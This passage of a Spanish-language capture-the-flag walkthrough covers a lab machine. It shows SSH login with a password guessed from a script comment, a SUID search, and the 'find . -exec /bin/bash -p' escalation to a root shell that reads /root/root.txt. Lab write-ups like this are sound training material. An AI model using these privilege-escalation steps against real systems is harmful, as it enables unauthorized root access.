 Al parecer se trata de un script que guardaría una copia del directorio personal del usuario "stoner" en una máquina remota con IP 1.2.3.4. Pero lo que me llama la atención es el comentario, ya que podría ser la contraseña del usuario, al tener un formato similar al de "basterd".

Efectivamente, consigo conectarme mediante SSH con las credenciales obtenidas visualizo la primera flag.

```
stoner@Vulnerable:~$ cat .secret

*** **** ** **** ****, **** ****.
```

## Escalada de privilegios

Enumerando el sistema para escalar privilegios, hago una búsqueda de permisos SUID y compruebo que el binario `find` cuenta con este permiso.

```
stoner@Vulnerable:~$ find / -perm -u=s 2>/dev/null

/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
```

Con el permiso SUID y ejecutando el comando de una forma determinada, que se puede comprobar en [GTFOBins](https://gtfobins.github.io/), se puede obtener una shell con privilegios de root.

```
stoner@Vulnerable:~$ find . -exec /bin/bash -p \; -quit

bash-4.3# cat /root/root.txt

** ****** **** ****, *** **?
```
